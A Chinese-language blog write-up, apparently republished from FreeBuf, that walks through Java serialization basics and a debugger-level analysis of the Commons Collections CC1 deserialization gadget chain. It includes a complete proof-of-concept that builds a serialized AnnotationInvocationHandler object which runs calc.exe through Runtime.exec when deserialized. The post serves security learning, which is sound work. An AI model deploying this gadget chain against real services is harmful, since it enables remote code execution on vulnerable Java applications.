







# 从Java反序列化基础到CC链漏洞分析

文章首发FreeBuf:https://www.freebuf.com/articles/web/339677.html

### 前言

好久没看Java的内容，现在从头开始看，学习Java安全。关于反序列化之前入门学习过一点，但是经过这次学习，又多了一些理解。记录下来。从Java反序列化的基础到最后学习分析CC链以及漏洞利用。反序列化基础就提一点，主要是学习并分析下CC链。已经尽可能写的比较啰嗦了，对于像我一样的Java小白，学习这里还是需要有一点Java反射和idea调试的基础。

### 序列化与反序列化基础

一个类能否进行序列化，取决于它有没有继承Serializable这个接口。

序列化：`ObjectOutputStream`类的`writeObject(Object obj)`方法，将对象序列化成字符串数据。
反序列化：`ObjectInputStream`类的`readObject(Object obj)`方法，将字符串数据反序列化成对象。


这是通过输入输出流还有字节文件流来进行序列化和反序列化。Java在序列化的时候，类中有个ID，当反序列化的时候，如果ID值被更改了，接下来的反序列化就会失败。

增加个transient标志表示这个变量不参与反序列化

```java
protected transient int age; //transient表示该变量不参与序列化
```



### CC链系列命令执行

#### Transformer细究

用代码来看

```java
package serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class Main {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformer = new ChainedTransformer(transformers);
        transformer.transform(1);
    }
}
```

这里调试代码看执行过程。开启debug

先看下调用了Transformer的几个函数


`transformers`是个实例化的数组对象，里面有两个参数，一个是`ConstantTransformer`


传入`constantToReturn`，返回同样的值，赋值给`this.iConstant`，而这里传入的值是`Runtime.getRuntime()`想要通过这个实现命令执行。

然后看第二个参数：`InvokerTransformer`


传入三个参数，这里通过debug看的话会更明显


传入的参数分别为`exec`，`String.class`，`calc`。

然后执行命令的部分还有`InvokerTransformer--->transform`

```java
Class cls = input.getClass();
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
return method.invoke(input, this.iArgs);
input`是从外面传入的参数，`cls`获取到`input`的`class
```

然后是`getMethod()`


到这一步，`method`得到了`exec`方法，和该方法的参数数组`String.class`

最后返回`method.invoke()`，传入的参数为执行的命令`this.iArgs`

这样最终完成命令执行。

到这里都是流程，然后下面两段代码才是执行这个流程的操作。继续看：


`transformsers`只是一个存储，用来存储上面分析的所有数据。在 `ChainedTransformer`中，debug进入方法，是一个for循环，transformers长度为2，这个是我们传入的两个参数。分别是`ConstantTransformer`和`InvokerTransformer`

这里的for循环会执行两次，第一次执行：



没有参数，第二次执行：



三个参数都显示出来了，然后进入下一步`InvokerTransformer--->transform`第一个判断为空的已经把for循环第一次空值给pass掉了，第一次的流程根本就没走到`try`抛出异常这一步，继续看第二次循环出现`exec`参数这次，上面已经分析过了，利用`invoke()`方法调用`Runtime.getRuntime().exec()`执行命令`clac`打开计算器。


这里算是把这个过程分析结束了。这里只是一个简单的版本，对于Transformer的分析。

#### CC1链分析

经过上面Transformer相关方法的了解，和那个过程，擦汗不多可以了解这个过程了，接下来就是找个CC链，详细执行过程分析一下。

```java
package CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        map.put("value", "value");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        Object instance = annotationInvocationHandler.newInstance(Target.class, transformedMap);
        serialize(instance);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

环境说明：`jdk1.7`，`commons-collections3.1.jar`

关于解决这个环境问题，用了我将尽一下午的时间，然后废话不多说，分析这个链子之前，关于CC链的原理，为什么是链子，我之前都很迷惑，所以这次顺便记录一下。


`commons-collections3.1`的执行原理就是找到我们想要执行的危险方法。比如：`exec()`、`transform()`因为这里的链子是利用了`transform()`。然后向上找，看看有哪些方法执行的时候调用了这个危险方法，进而一级一级向上寻找这个方法，知道最后。找到一个可控输入的方法，去调用。一级一级向下进行debug。这么说会有点迷，所以看流程图比较直观。


这样形成一个链子。（其中利用的方法也不是随意选择的，需要考虑方法是否可序列化）

然后分析下这个链子。

`Transformer`实例化一个数组`transformers`，将构建了任意函数执行的核心代码填充进数组中。这样方便调用。`transforms`数组里面的函数执行核心代码在上面Transform细究中已经解释的比较详细了。命令执行不是这个环节，这里分析下怎么进行调用，CC链执行。

```java
chainedTransformer.transform(Runtime.class);
```

这句代码用是调用`transform()`，构造的链子就是需要调用不同类中的同名方法来实现这个结果。

查找Usages，看看项目和lib包中有哪些拥有`transform()`方法

这里找最后一个也是比较好找的，当然上面的`LazyMap`中也有


可以看到这里的`transform(value)`是有个参数的，但是可不可控还不清楚，需要继续向上看。而且这个`transform()`方法只针对`valueTransformer`生效，所以还要看看`valueTransformer`在在哪里赋值，怎么赋值。



从这里就可以看出，只要调用`checkSetValue()`方法，就会自动调用同文件中的

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
       return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```


这三个值是可以控制的


再看看如何调用`checkSetValue()`方法，在整个文件中只找到一处使用了`checkSetValue()`方法，就是这里



然后看到其实他所在的类`MapEntry`中有一个父类，就是`AbstractMapEntryDecorator`

新建一个`map`也就是实例化一个HashMap对象。然后给这个map装饰一下

```java
HashMap map = new HashMap();
Map transformedMap = TransformedMap.decorate(map,null, chainedTransformer);
```

至于为什么`decorate`有三个参数，这里只给它两个，中间为`null`了，是因为在后面需要用到的`valueTransformer.transform(value);`里面只对`valueTransformer`使用了`transform`方法。

到这里将`chainedTransformer`赋值给`valueTransformer`这样`checkSetValue`使用时会调用`valueTransformer.transform()`就相当于`chainedTransformer`调用了`transform()`方法。

关于`Map.Entry`

Java的entry是一个静态内部类，实现`Map.Entry< K ,V> `这个接口,通过entry类可以构成一个单向链表

entry就表示的是Java中的键值对。

根据上一张图可以看到，我们现在寻找的目标已经变成了`setValue()`还是使用`find Usages`在整个项目和lib包中寻找，还是尽量找不同类中的同名方法。因为最终是需要进行序列化和反序列化的，所以尽可能找`readObject()`方法，发现在`sun.reflect.annotation.AnnotationInvocationHandler`中存在一个重写的`readObject()`方法。

因为这个方法不是public，所以只有通过反射机制调用`AnnotationInvocationHandler`类的构造函数。也就是使用`Class.forName`

然后获取它的构造器因为他的构造器不是共有的（public），所以这里要使用`getDeclaredConstructor`

```java
Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class, Map.class);
```

解释：

Class类的getDeclaredConstructor()方法,可获取到类的私有构造器(包括带有其他修饰符的构造器）

参数还是跟它的构造器类似。第一个是个Class，第二个是个Map

```java
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    Class[] var3 = var1.getInterfaces();
    if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {//var1满足这个if条件时
        this.type = var1;//传入的var1到this.type
        this.memberValues = var2;//我们的map传入this.memberValues
    } else {
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    }
}
```


再然后，`setAccessible(true)`将此对象的 accessible 标志设置为指示的布尔值。值为 true 则指示反射的对象在使用时应该取消 Java 语言访问检查。值为 false 则指示反射的对象应该实施 Java 语言访问检查。

再继续进行获取`AnnotationInvocationHandler`类实例

```java
Object instance = annotationInvocationHandler.newInstance(Target.class, transformedMap);
```

陌生方法解释

通过 Class 类的 `newInstance()` 方法创建对象，该方法要求该 Class 对应类有无参构造方法。执行 `newInstance()`方法实际上就是使用对应类的无参构造方法来创建该类的实例，其代码的作用等价于`Super sup = new Super()`。

第一个参数是继承了注释类：`extends Annotation`

第二个参数是Map，上面的Map实例化的名为`transformedMap`

注解的这边，`Target`就是注解，可以跟进去看看


里面有个值，为`value()`

Override也是个注解，但是他里面没有值，先往后看

看`readObject()`重构的方法

```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }

    }
```


`memberValues`是键值对，var4获取了键值对，var5遍历map的迭代器，再后面var6使用`getkey()`方法获取键值对的key。然后进入一个if判断，需要`key`不为空

所以这边需要找一个有成员方法的class，Override是没有成员方法的，所以它在这里是不能成功反序列化的，使用Override，在反序列化时，到最后一步，会被if语句拦住进不去。改成Override，进行debug看下效果。



这里就进不去if，所以后面的`setValue`也执行不了，自然无法正常执行命令。

所以这里还是要用Target

最后看一下，关于`map.put()`的值，第一个值是固定的必须是value

如果换成其他的值，我这里换成admin，再次进行debug


最后var7的值还是null，只有当传入的第一个值为value时，到最后的var7获取的才能不为空


正常进入，最后成功反序列化。



### 小结

学习这里用的时间比较久吧（......），后续会再继续进行CC链的其他几个链子的分析。

### 参考资料

推荐看这个视频 https://b23.tv/7U1vbik

https://xz.aliyun.com/t/7031

https://blog.csdn.net/weixin_39881760/article/details/109762099